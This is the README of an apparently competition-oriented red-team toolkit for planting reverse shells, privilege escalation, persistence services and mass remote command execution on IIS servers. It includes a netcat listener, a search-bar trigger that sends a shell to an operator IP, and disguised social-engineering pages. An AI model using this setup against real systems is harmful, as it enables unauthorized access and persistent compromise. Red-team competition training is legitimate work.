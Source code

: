 # IIS-Reverse-Shell

## Overview
This project demonstrates advanced penetration testing techniques against IIS web servers, focusing on reverse shell deployment, privilege escalation, and persistence mechanisms. It includes:

- **Ansible Playbooks**: Automate the deployment and configuration of IIS servers across multiple targets
- **PHP Scripts**: Facilitate reverse shell functionality and SYSTEM privilege escalation
- **Website Content**: Professional-looking HTML and assets for social engineering
- **Persistence Mechanisms**: C++ Windows service for maintaining long-term access
- **Mass RCE Capabilities**: Python server for coordinated command execution across multiple compromised hosts

## Repository Structure

<pre>IIS-Reverse-Shell/
├── Ansible/
│   ├── iis_setup.yml
│   ├── inventory.yml
│   └── ansible.cfg
├── Images/
│   ├── UB_Lockdown/
│   ├── IRSEC/
│   └── Empire State Health/
├── PHP/
│   ├── contact.php
│   ├── search.php
│   └── php.ini
├── Persistence/
│   ├── Main.cpp
│   ├── Service.h
│   ├── Service.cpp
│   ├── Persistence.h
│   ├── Persistence.cpp
│   └── IISManagerService.exe
├── Website/
│   ├── UB_Lockdown/
│   │   ├── UB_Lockdown.html
│   │   ├── button.js
│   │   └── web.config
│   ├── IRSEC/
│   │   ├── IRSEC.html
│   │   ├── button.js
│   │   └── web.config
│   └── Empire State Health/
│       ├── Empire State Health.html
│       ├── button.js
│       └── web.config
└── server.py
</pre>

### Directory Breakdown
- **`Ansible/`**: Contains playbooks and inventory files for automating server setup.
- **`Images/`**: Directory with images used in the website.
- **`PHP/`**: Contains the PHP script for the reverse shell.
- **`Persistence/`**: Contains the C++ executable service that maintains persistence on the server.
- **`Website/`**: HTML and CSS files for the website's frontend.
- **`server.py`**: A Python Client that allows for mass remote command execution.

## Setup Instructions

### Prerequisites
- **Ansible**: Installed on the control machine.
- **Windows Server**: With WinRM running and enabled.
- **Network Configuration**: Ensure the server is accessible and that required ports are properly configured.
- **Required Ansible Packages**:
  ```sh
  ansible-galaxy collection install ansible.windows community.windows
  pip install pywinrm
  ```

### Steps

## 1. Clone the Repository
```bash
cd ~
git clone https://github.com/Lcdemi/IIS-Reverse-Shell
cd IIS-Reverse-Shell/Ansible
```

## 2. Configure Ansible Inventory
Edit the inventory.yml file to include your server's details:

```yaml
all:
  hosts:
  children:
    winserver:
      hosts:
        [IP_1]:
        [IP_2]:
        ...
    win10:
      hosts:
        [IP_1]:
        [IP_2]:
        ...
  vars:
    ansible_user: your_username
    ansible_password: your_password
    ansible_connection: winrm
    ansible_port: 5985
    ansible_winrm_transport: ntlm
    ansible_winrm_server_cert_validation: ignore
```

## 3. Configure Competition Name
Edit the iis_setup.yml file to include the name of the Competition:

```yaml
 name: IIS Reverse Shell Server Configuration
  hosts: all
  gather_facts: true
  vars:
    Competition: "[Your Competition Name]"
```

## 4. Run the Ansible Playbook
To set up the IIS server and deploy the website, execute the following command:

```sh
ansible-playbook -i inventory.yml iis_setup.yml
```

## 5a. Spawn a Reverse Shell (Singular Execution)
To spawn a reverse shell, follow these steps:

1. **Set Up a Listener**: On your machine, start a listener using a tool like `netcat`. For example:
   ```bash
   nc -lvnp [PORT]
   ```
2. **Trigger the Reverse Shell**: Once the deployment is complete, open your browser and navigate to: http://your_server_ip/. On the deployed website, locate the search bar. Enter the following command:
    ```html
    search [YOUR_IP] [PORT]
    ```
    Replace `[YOUR_IP]` with your machine's IP address and `[PORT]` with the port you are listening on (e.g., `8080`).

3. **Gain Access**: Once the command is executed, a system shell will be spawned, and you will have access to the target machine.

## 5b. OS Command Injection (Mass Execution)
For large-scale operations or testing multiple targets simultaneously, use the included `server.py` Python script to automate command execution across multiple compromised hosts.

### Server.py Features
- **Mass RCE**: Execute commands on multiple targets simultaneously
- **Concurrent Processing**: Handle multiple connections efficiently
- **Command Queueing**: Queue commands for execution across all connected hosts
- **Real-time Output**: Live output from all connected systems
- **Session Management**: Track active reverse shell sessions

### Usage

#### Starting the Mass RCE Server
```bash
# Start the RCE server on a specific port
python server.py -p 8888

# Or use default port 8888
python server.py
